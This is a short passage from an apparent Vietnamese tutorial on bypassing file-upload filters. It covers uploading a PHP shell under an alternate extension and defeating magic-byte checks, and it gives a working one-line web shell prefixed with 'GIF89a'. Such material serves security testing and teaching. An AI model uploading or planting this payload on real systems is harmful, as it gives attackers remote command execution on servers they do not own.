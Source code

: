 ![alt text](./src/image-8.png)
B2: Upload shell .tam và chạy php bình thường <br>
![alt text](./src/image-9.png) <br>
![alt text](./src/image-10.png) <br>
### 3.6  Bypass File header(Magic byte)
![alt text](./src/image-11.png)
Upload file với nội dung có dạng: <magic_bytes><php_code> <br>
Ví dụ: `GIF89a;<?php system($_GET['cmd']); ?>` <br>